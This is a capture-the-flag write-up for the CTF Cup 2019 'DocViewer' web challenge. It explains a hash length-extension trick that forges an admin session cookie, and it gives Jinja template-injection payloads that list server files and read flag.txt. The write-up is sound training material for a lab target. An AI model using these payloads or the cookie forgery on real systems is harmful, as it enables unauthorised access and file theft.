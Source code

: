 # CTF Cup 2019 | Task-based – DocViewer

* **Category:** Web

## Challenge

> A large company can't live without their own service for document storing. I will never believe that somebody can read a document from other person or, God forbid, read files from the service.

### Author's repo (with task, solution and so on)

> https://github.com/HackerDom/ctfcup-2019-tb/tree/master/ideas/web/doc-viewer

## Solution

### 1) we need to login as admin to create and edit document

##### 1.1) send login request with empty username, we will get hash of of `HASH_SALT`

`hash(HASH_SALT) == 4e63fdb187d6465b6420f7677cf97b2c3b58014d`

##### 1.2) rewrite `_calculate_inner` with other initialization parametres

`hash() == A + B + C + D + E (where + is string concat)`

so


`A = 0x4e63fdb1`
`B = 0x87d6465b`
`C = 0x6420f767`
`D = 0x7cf97b2c`
`E = 0x3b58014d`


##### 1.3) call rewritten `_calculate_inner('admin')` and get valid admin hash (== admin_hash session cookie)

(by magic and luck we don't have to brute-force length of `HASH_SALT`)

`hash(HASH_SALT + admin) = 80320e5e0460b578a836a77ccd4fc682f3adb13a`

##### 1.4) set cookie 

### 2) find SSTI by fazzing

if we look to packets, what server send to us, (for example In Firefox > Network > some_packet > Headers > Server) we get to know, that servers uses `gunicorn/20.0.4`

so it is likely that server is written in python => we can try Jinja Injection

### 3) send payload

(taken from https://ctftime.org/writeup/11014)

Create documents with such content:

get list of files in $PWD
`{{url_for.__globals__.os.__dict__.listdir('./')}}`

find filename of flag and cat it
`{{url_for.__globals__.__builtins__.open('flag.txt').read()}}`
